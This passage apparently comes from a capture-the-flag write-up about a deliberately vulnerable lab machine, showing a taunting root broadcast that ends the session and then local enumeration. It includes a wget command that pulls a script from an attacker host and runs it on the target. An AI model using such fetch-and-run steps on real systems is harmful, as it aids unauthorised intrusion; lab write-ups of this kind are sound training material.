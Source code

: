         </p>
      </div>
    </div>
</section>

Then almost as soon as I'd logged in, the following message printed to console and the session closed: 

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">Broadcast Message from root@trol</p>
      <div class="shell">
        <p class="line">
		  <span class="output"><br></span>
          <span class="output">Broadcast Message from root@trol<br></span>
          <span class="output">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;(somewhere) at 22:00 ... <br></span>
		  <span class="output"><br></span>
		</p>
		<p class="line">
		  <span class="output">TIMES UP LOL!<br></span>
        </p>
      </div>
    </div>
</section>

This became rather annoying... 

![Janeway Annoyed](/img/janeway-annoyed.gif)

## Local Enumeration 

I copied over my local enumeration sctipt to /var/tmp/ which discovered the following world writable files:

<section class="shellbox">
    <div class="unit golden-large code">
      <p class="title">Local Enumeration Sctipt</p>
      <div class="shell">
        <p class="line">
          <span class="prompt">root</span><span>:</span><span class="path">~</span><span>#</span>
          <span class="command">wget http://attacking-machine/exploits/enumeration/lin/linux-local-enum.sh -P /var/tmp/ && chmod 700 /var/tmp/linux-local-enum.sh && ./var/tmp/linux-local-enum.sh<br></span>
        </p>
      </div>
    </div>
</section>
